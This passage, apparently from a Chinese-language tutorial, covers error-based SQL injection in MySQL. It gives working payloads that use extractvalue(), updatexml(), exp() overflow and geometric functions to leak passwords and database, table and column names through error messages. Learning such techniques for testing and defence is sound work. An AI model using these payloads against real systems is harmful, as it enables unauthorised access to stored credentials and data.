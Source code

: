 ```mysql
select * from users where id=1 
and extractvalue(1,concat(0x7e,substr((select passwd from 数据库名.表名 limit 0,1),1,10),0x7e))-- 
```



**（2）updatexml()**

和extractvalue()的区别在于updatexml()需要3个参数，格式为`updatexml(1,[要执行的SQL语句],1)`

```mysql
select * from users where id=1
and updatexml(1,concat(0x7e,database(),0x7e),1)-- 
```



**（3）整数溢出报错**

+ 关键函数：exp()、pow()、cot()

```mysql
mysql> select * from test where id='1' and cot(0);
ERROR 1690 (22003): DOUBLE value is out of range in 'cot(0)'
```

```mysql
mysql> select * from test where id='1' and pow(99999,99999);
ERROR 1690 (22003): DOUBLE value is out of range in 'pow(99999,99999)'
```

`exp()=e^x`，用于计算e的x次幂。当exp()的参数为710时才开始报错，如果小于710只会返回正常的查询结果。

```mysql
mysql> select * from test where id='1' and exp(710);
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
```



**（4）几何函数报错**

`polygon()`可以用于爆出当前数据库名、表名、列名。

```
select * from test where id='1' and polygon(id);
```

```
ERROR 1367 (22007): Illegal non geometric '`bihu`.`test`.`Id`' value found during parsing
```

`linestring()`

```
select * from test where id='1' and linestring(id);
```

```
ERROR 1367 (22007): Illegal non geometric '`bihu`.`test`.`Id`' value found during parsing
```



